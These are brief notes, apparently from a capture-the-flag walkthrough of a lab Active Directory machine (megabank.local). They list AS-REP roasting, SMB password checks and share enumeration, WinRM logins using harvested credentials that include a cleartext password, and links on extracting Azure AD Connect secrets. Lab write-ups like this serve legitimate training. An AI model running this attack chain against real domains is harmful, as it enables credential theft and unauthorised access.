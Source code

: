 impacket-GetNPUsers megabank.local/ -usersfile users.txt -dc-ip 10.129.110.218
SMB         10.129.110.218  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
evil-winrm -i 10.129.110.218 -u SABatchJobs -p SABatchJobs

crackmapexec smb 10.129.110.218 -u SABatchJobs -p SABatchJobs --shares

[+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$

evil-winrm -i 10.129.110.218 -u mhope -p '4n0therD4y@n0th3r$'

https://blog.xpnsec.com/azuread-connect-for-redteam/
https://github.com/fox-it/adconnectdump